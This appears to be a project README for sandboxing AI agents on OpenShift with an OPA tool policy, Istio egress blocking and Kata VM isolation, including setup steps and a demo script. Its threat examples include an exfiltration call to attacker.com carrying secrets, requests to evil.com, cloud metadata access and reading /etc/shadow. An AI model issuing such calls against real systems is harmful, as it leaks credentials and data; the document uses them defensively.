


# Enterprise AI Agent Security on OpenShift

## The Problem

AI agents with tool access pose security risks:
- **Data exfiltration**: Agent calls `fetch_url("https://attacker.com/exfil?data=secrets")`
- **IMDS attacks**: Agent accesses `http://169.254.169.254/metadata`
- **Bypass via direct HTTP**: Compromised agent code runs `requests.get("https://evil.com")`

**How do you let agents use tools while preventing misuse?**

## The Solution: Three-Layer Security

| Layer | Technology | What It Blocks |
|-------|------------|----------------|
| **1. Tool Policy** | MCP Gateway + Authorino/OPA | Unauthorized tool arguments |
| **2. Network Egress** | Istio REGISTRY_ONLY | Direct internet access from pods |
| **3. Execution Isolation** | OpenShift Sandboxed Containers (Kata) | Host access if agent is compromised |

This is inspired by [Anthropic's SRT](https://github.com/anthropic-experimental/sandbox-runtime), adapted for Kubernetes/OpenShift using production-grade components.

---

## Architecture



### Request Flow



---

## Security Layers Explained

### Layer 1: Tool Policy (MCP Gateway + Authorino/OPA)

**What it is:** OPA policies that inspect tool call arguments before execution.

**Capabilities:**
| Capability | Status | How |
|------------|--------|-----|
| Block tools by name | ✅ | `input.context.request.http.body.params.name == "dangerous_tool"` |
| Block URLs by pattern | ✅ | `not startswith(url, "https://approved-domain.com")` |
| Block parameters by value | ✅ | `input.context.request.http.body.params.arguments.city == "Moscow"` |
| Per-agent policies | ✅ | Multiple `AuthPolicy` resources per namespace |
| Audit logging | ✅ | Authorino logs all decisions |

**Example policy:**
```rego
deny[msg] {
  input.context.request.http.body.method == "tools/call"
  input.context.request.http.body.params.name == "fetch_url"
  url := input.context.request.http.body.params.arguments.url
  not approved_url(url)
  msg := "URL not in approved list"
}

approved_url(url) if startswith(url, "https://api.weather.gov")
approved_url(url) if startswith(url, "https://httpbin.org")
```

**What it blocks:** An agent calling `fetch_url("https://malicious.com")` → **403 Forbidden**

---

### Layer 2: Network Egress (Istio REGISTRY_ONLY + ServiceEntry)

**What it is:** Istio sidecar proxies that block all outbound traffic except explicitly registered services.

**Capabilities:**
| Capability | Status | How |
|------------|--------|-----|
| Block direct internet access | ✅ | `outboundTrafficPolicy: REGISTRY_ONLY` |
| Allow specific external hosts | ✅ | `ServiceEntry` with `MESH_EXTERNAL` |
| Per-namespace overrides | ✅ | Namespace-scoped `Sidecar` resource |
| Protocol enforcement | ✅ | Only allow HTTPS on port 443 |
| mTLS between pods | ✅ | Istio mesh default |

**Configuration:**
```yaml
# Block all outbound by default
meshConfig:
  outboundTrafficPolicy:
    mode: REGISTRY_ONLY

# Explicitly allow specific APIs
apiVersion: networking.istio.io/v1beta1
kind: ServiceEntry
metadata:
  name: approved-external-apis
spec:
  hosts:
    - api.weather.gov
    - httpbin.org
  location: MESH_EXTERNAL
  resolution: DNS
```

**What it blocks:** Agent code running `requests.get("https://evil.com")` → **Connection refused**

---

### Layer 3: Execution Isolation (OpenShift Sandboxed Containers / Kata)

**What it is:** Each agent pod runs inside a dedicated micro-VM with its own kernel.

**Capabilities:**
| Capability | Status | How |
|------------|--------|-----|
| VM-level isolation | ✅ | QEMU/KVM hypervisor boundary |
| Separate kernel | ✅ | Guest kernel inside VM, not host |
| Host filesystem not visible | ✅ | VM has isolated root filesystem |
| Host network not accessible | ✅ | VM has separate network namespace |
| Unix sockets isolated | ✅ | VM cannot see host IPC sockets |
| Kernel exploits contained | ✅ | Guest kernel crash doesn't affect host |

**Configuration:**
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: agent-pod
spec:
  runtimeClassName: kata  # Run in VM, not container
  containers:
    - name: agent
      resources:
        limits:
          memory: "2Gi"  # Required for QEMU overhead
```

**What it blocks:** Compromised agent code trying to:
- Access `/etc/shadow` on host → **Sees only VM filesystem**
- Escape to host via kernel exploit → **Trapped inside guest VM**
- Access Docker socket → **Not visible in VM**

---

### How the Layers Work Together

| Attack | Layer 1 (OPA) | Layer 2 (Istio) | Layer 3 (Kata) |
|--------|---------------|-----------------|----------------|
| `fetch_url("https://evil.com")` | ✅ BLOCKED | - | - |
| `requests.get("https://evil.com")` | Bypassed | ✅ BLOCKED | - |
| Kernel exploit → host escape | Bypassed | Bypassed | ✅ CONTAINED |
| Access Docker socket | Bypassed | Bypassed | ✅ NOT VISIBLE |
| Read `/etc/shadow` on host | Bypassed | Bypassed | ✅ ISOLATED |

**Defense in depth:** If one layer is bypassed, the next layer catches the attack.

---

## Verified Demo Results

Tested on: 2024-12-30 (OpenShift 4.14 cluster)

### Layer 1: MCP Gateway + OPA Policy

| Test | Tool Name | URL | Expected | Actual |
|------|-----------|-----|----------|--------|
| Blocked URL | `fetch_url` | `https://malicious.com` | 403 | **HTTP 403 ✅** |
| Allowed URL | `fetch_url` | `https://httpbin.org/get` | 200 | **HTTP 200 ✅** |
| IMDS blocked | `fetch_url` | `http://169.254.169.254` | 403 | **HTTP 403 ✅** |

**Note:** OPA policy uses exact tool name matching. Ensure the policy `deny` rule matches the registered tool name.

### Layer 3: Execution Isolation (Kata)

| Check | Expected | Actual |
|-------|----------|--------|
| Agent pod `runtimeClassName` | `kata` | **`kata` ✅** |
| Pod on Kata-enabled node | Has `node-role.kubernetes.io/kata-oc` label | **✅ Yes** |
| Agent deployed via Kagenti CRD | Uses `Agent` CR | **✅ Yes** |

**Command verification:**
```bash
$ oc get pod -n agent-sandbox -o jsonpath='{.items[0].spec.runtimeClassName}'
kata

$ oc get agent -n agent-sandbox
NAME             READY
adk-kata-agent   True
```

---
---

## Prerequisites

- OpenShift 4.14+ cluster with admin access
- `oc` CLI configured and logged in
- `helm` CLI installed (v3.10+)
- OpenShift Sandboxed Containers operator installed
- Kuadrant operator installed

---

## Installation

### Step 1: Install Kagenti

Follow the [Kagenti OpenShift Installation Guide](https://github.com/kagenti/kagenti/blob/main/docs/ocp/openshift-install.md).

**Important:** If you have existing operators, disable conflicting components:

```bash
helm install kagenti-deps charts/kagenti-deps \
  -n kagenti-system --create-namespace \
  --set openshift=true \
  --set components.keycloak.enabled=false \
  --set components.istio.enabled=false \
  --set components.tekton.enabled=false \
  --set components.certManager.enabled=false
```

### Step 2: Fix System Namespace Labels

**Critical:** System namespaces with controllers must NOT have ambient mode:

```bash
# Remove ambient label from kagenti-system (controller needs API access)
oc label namespace kagenti-system istio.io/dataplane-mode-

# Restart controller
oc delete pod -n kagenti-system -l control-plane=controller-manager
```

### Step 3: Configure Istio for OPA Body Forwarding

```bash
oc patch istio default -n istio-system --type=merge -p '
{
  "spec": {
    "values": {
      "meshConfig": {
        "extensionProviders": [
          {
            "name": "kuadrant-authorization",
            "envoyExtAuthzGrpc": {
              "service": "authorino-authorino-authorization.kuadrant-system.svc.cluster.local",
              "port": 50051,
              "timeout": "5s",
              "includeRequestBodyInCheck": {
                "maxRequestBytes": 8192,
                "allowPartialMessage": true
              }
            }
          }
        ]
      }
    }
  }
}'
```

### Step 4: Apply OPA Policy

```bash
oc apply -f manifests/policies/url-blocking-policy.yaml

# Verify
oc get authpolicy -n gateway-system
```

### Step 5: Configure Istio Egress Control

```bash
# Add ServiceEntry for approved external APIs
oc apply -f - <<EOF
apiVersion: networking.istio.io/v1beta1
kind: ServiceEntry
metadata:
  name: approved-external-apis
  namespace: istio-system
spec:
  hosts:
    - httpbin.org
    - api.weather.gov
    - api.github.com
    - example.com
  ports:
    - number: 443
      name: https
      protocol: HTTPS
  location: MESH_EXTERNAL
  resolution: DNS
EOF

# Apply REGISTRY_ONLY mode
oc patch istio default -n istio-system --type=merge -p '
{
  "spec": {
    "values": {
      "meshConfig": {
        "outboundTrafficPolicy": {
          "mode": "REGISTRY_ONLY"
        }
      }
    }
  }
}'
```

### Step 6: Configure OpenShift Sandboxed Containers

```bash
# Label worker nodes for Kata
oc label node <NODE_NAME> node-role.kubernetes.io/kata-oc=""

# Apply KataConfig
oc apply -f manifests/osc/kataconfig.yaml

# Wait for RuntimeClass (10-15 min)
watch oc get runtimeclass kata
```

### Step 7: Deploy Agent with Kata Runtime

```bash
oc apply -f manifests/osc/sandboxed-agent.yaml

# Verify
oc get pod -n agent-sandbox -o jsonpath='{.items[0].spec.runtimeClassName}'
# Should output: kata
```

**Important:** Kata pods require **2Gi memory minimum** due to QEMU overhead.

---

## Run the Demo

```bash
# From inside the cluster
oc run demo --rm -it --restart=Never --image=curlimages/curl:latest -- sh -c '
  # Initialize MCP session
  curl -s -D /tmp/h -X POST "http://mcp-gateway-istio.gateway-system.svc.cluster.local:8080/mcp" \
    -H "Content-Type: application/json" \
    -H "Host: mcp.127-0-0-1.sslip.io" \
    -d "{\"jsonrpc\":\"2.0\",\"id\":1,\"method\":\"initialize\",\"params\":{\"protocolVersion\":\"2024-11-05\",\"capabilities\":{},\"clientInfo\":{\"name\":\"demo\",\"version\":\"1.0\"}}}" > /dev/null
  SESSION=$(grep -i "mcp-session-id:" /tmp/h | cut -d: -f2- | tr -d " \r\n")
  
  echo "=== LAYER 1: OPA Policy ==="
  echo -n "fetch_url(malicious.com): "
  curl -s -w "HTTP %{http_code}\n" -o /dev/null -X POST "http://mcp-gateway-istio.gateway-system.svc.cluster.local:8080/mcp" \
    -H "Content-Type: application/json" -H "Host: mcp.127-0-0-1.sslip.io" -H "mcp-session-id: $SESSION" \
    -d "{\"jsonrpc\":\"2.0\",\"id\":2,\"method\":\"tools/call\",\"params\":{\"name\":\"fetch_url\",\"arguments\":{\"url\":\"https://malicious.com\"}}}"
  
  echo -n "fetch_url(httpbin.org): "
  curl -s -w "HTTP %{http_code}\n" -o /dev/null -X POST "http://mcp-gateway-istio.gateway-system.svc.cluster.local:8080/mcp" \
    -H "Content-Type: application/json" -H "Host: mcp.127-0-0-1.sslip.io" -H "mcp-session-id: $SESSION" \
    -d "{\"jsonrpc\":\"2.0\",\"id\":3,\"method\":\"tools/call\",\"params\":{\"name\":\"fetch_url\",\"arguments\":{\"url\":\"https://httpbin.org/get\"}}}"
  
  echo ""
  echo "=== LAYER 2: Istio Egress ==="
  echo -n "Direct curl evil-site.net: "
  curl -s -o /dev/null -w "HTTP %{http_code}\n" https://evil-site.net --connect-timeout 5 || echo "BLOCKED (connection refused)"
  
  echo -n "Direct curl httpbin.org: "
  curl -s -o /dev/null -w "HTTP %{http_code}\n" https://httpbin.org/get --connect-timeout 10
'
```

**Expected Output:**
```
=== LAYER 1: OPA Policy ===
fetch_url(malicious.com): HTTP 403
fetch_url(httpbin.org): HTTP 200

=== LAYER 2: Istio Egress ===
Direct curl evil-site.net: BLOCKED (connection refused)
Direct curl httpbin.org: HTTP 200
```

---

## Comparison with Other Approaches

### vs Anthropic SRT

| Capability | Anthropic SRT | This Demo |
|------------|---------------|-----------|
| Network filtering | Proxy-based | Istio + OPA |
| Filesystem isolation | OS sandboxing (bubblewrap) | VM isolation (Kata) |
| Unix sockets | seccomp blocks socket() | Isolated by default (VM) |
| Tool argument inspection | ❌ | ✅ OPA policy |
| Kubernetes native | ❌ | ✅ |
| Isolation strength | Process-level | **VM-level (stronger)** |

### vs GKE Agent Sandbox

| Capability | GKE Agent Sandbox | This Demo |
|------------|-------------------|-----------|
| Isolation technology | gVisor | Kata (full VM) |
| Tool policy | ❌ | ✅ OPA at gateway |
| Pod Snapshots | ✅ | ❌ |
| Platform | GKE only | OpenShift |

### vs Tiramisu Operator

| Capability | Tiramisu | This Demo |
|------------|----------|-----------|
| Network filtering | Domain allowlist | Istio REGISTRY_ONLY |
| Tool context | ❌ (just domain) | ✅ (tool + args) |
| Can block specific paths on allowed domain | ❌ | ✅ |
| Configuration | TiramisuConfig CRD | AuthPolicy + ServiceEntry |

---

## Key Technical Details

### 1. System Namespaces Must Not Have Ambient Mode

The `kagenti-system` namespace contains controllers that need direct Kubernetes API access. Remove the ambient label:

```bash
oc label namespace kagenti-system istio.io/dataplane-mode-
```

### 2. Kata Pods Require 2Gi Memory

Kata runs each pod in a QEMU micro-VM. The QEMU overhead requires at least 2Gi:

```yaml
resources:
  limits:
    memory: "2Gi"
  requests:
    memory: "2Gi"
```

### 3. OPA Requires Request Body Forwarding

For OPA to inspect tool arguments, Istio must forward the request body to Authorino:

```yaml
includeRequestBodyInCheck:
  maxRequestBytes: 8192
  allowPartialMessage: true
```

### 4. ServiceEntry Required for External APIs

With `REGISTRY_ONLY` mode, external APIs must be explicitly registered:

```yaml
apiVersion: networking.istio.io/v1beta1
kind: ServiceEntry
metadata:
  name: approved-external-apis
spec:
  hosts:
    - api.weather.gov
    - httpbin.org
  location: MESH_EXTERNAL
  resolution: DNS
```

---

## Troubleshooting

### Controller CrashLoopBackOff

**Symptom:** `kagenti-controller-manager` can't reach Kubernetes API

**Cause:** Namespace has `istio.io/dataplane-mode: ambient` label

**Fix:**
```bash
oc label namespace kagenti-system istio.io/dataplane-mode-
oc delete pod -n kagenti-system -l control-plane=controller-manager
```

### OPA Policy Not Blocking

**Symptom:** All requests pass through

**Cause:** Request body not forwarded to Authorino

**Fix:** Add `includeRequestBodyInCheck` to Istio mesh config

### Kata Pods Stuck Pending

**Symptom:** Pods with `runtimeClassName: kata` don't schedule

**Cause:** Node selector mismatch

**Fix:**
```bash
oc get runtimeclass kata -o yaml | grep -A5 scheduling
# Ensure nodes have matching label
oc get nodes -l node-role.kubernetes.io/kata-oc
```

### Direct Internet Still Working

**Symptom:** Pods can still reach internet directly

**Cause:** `outboundTrafficPolicy` not set to `REGISTRY_ONLY`

**Fix:**
```bash
oc get istio default -n istio-system -o jsonpath='{.spec.values.meshConfig.outboundTrafficPolicy.mode}'
# Should output: REGISTRY_ONLY
```

---

## Project Structure

```
.
├── manifests/
│   ├── istio/
│   │   ├── ext-authz-config.yaml      # Authorino integration
│   │   └── service-entry.yaml         # Approved external APIs
│   ├── osc/
│   │   ├── kataconfig.yaml            # Kata configuration
│   │   └── sandboxed-agent.yaml       # Agent with Kata runtime
│   └── policies/
│       └── url-blocking-policy.yaml   # OPA policy
├── scripts/
│   ├── demo-complete.sh               # Full demo script
│   ├── setup-namespaces.sh            # Namespace configuration
│   └── test-policy.sh                 # Quick policy test
├── docs/
│   └── troubleshooting.md             # Common issues
└── README.md
```

---

## References

- [Kagenti](https://github.com/kagenti/kagenti) - MCP Gateway platform
- [OpenShift Sandboxed Containers](https://docs.openshift.com/container-platform/latest/sandboxed_containers/index.html)
- [Kuadrant/Authorino](https://github.com/Kuadrant/authorino) - Policy engine
- [Anthropic SRT](https://github.com/anthropic-experimental/sandbox-runtime) - Inspiration
- [Istio Egress Control](https://istio.io/latest/docs/tasks/traffic-management/egress/)

## License

Apache 2.0
